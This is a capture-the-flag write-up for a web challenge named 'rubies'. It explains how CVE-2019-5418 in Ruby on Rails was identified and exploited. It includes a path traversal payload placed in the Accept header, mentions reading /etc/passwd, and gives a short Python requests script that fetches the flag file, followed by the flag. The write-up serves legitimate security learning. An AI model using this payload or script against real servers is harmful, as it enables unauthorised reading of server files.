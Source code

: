 # rubies Challenge Writeup

> **Category**: Web\
> **Author**: Stefan

## TL;DR
Exploiting CVE-2019-5418

---

## Challenge Description
The challenge name was "rubies" and we had an image with a ruby. The website title, when base64 decoded, was "rails". Clicking on the image brought me to `/vuln` and returned a 500 server error.

<img src="https://i.imgur.com/G3dmPpJ.png" alt="Writeup_image_1" width="400"/>

## Solution
### Step 1: Identifying the CVE
After some investigation, I looked through the CVEs for Ruby on Rails on cvedetails.com but found nothing relevant. I then googled `ruby rails cve "poc"` (PoC – Proof of Concept), which led us to CVE-2019-5418.

### Step 2: Exploiting the Vulnerability
The vulnerable path was `/vuln`, and we found the [CVE-2019-5418 GitHub repository](https://github.com/mpgn/CVE-2019-5418). By changing the `Accept` header, we could retrieve files from the server.

<img src="https://i.imgur.com/MIHu9dr.png" alt="Writeup_image_2" width="700"/>

### Step 3: Finding the Flag
To identify the flag file path, I first looked into `/etc/passwd`, as the CVE example did. There, I found a user named "gem" with a corresponding home directory, suggesting that the flag might be in that directory.

The payload I used was `../../../../../../../home/gem/flag.txt{{`.

<img src="https://i.imgur.com/y06p0rb.png" alt="Writeup_image_3" width="800"/>

## Script
```python
import requests

url = "http://34.107.71.117:30786/vuln"
headers = {
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36",
    "Accept": "../../../../../../../home/gem/flag.txt{{",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en-US,en;q=0.9",
    "Connection": "close"
}

response = requests.get(url, headers=headers)
print(response.text)
```

## Flag
`CTF{C5547BAA6CE135850B3A728D442925F1AE63F2BF22301676282958A0CE5FAE59}`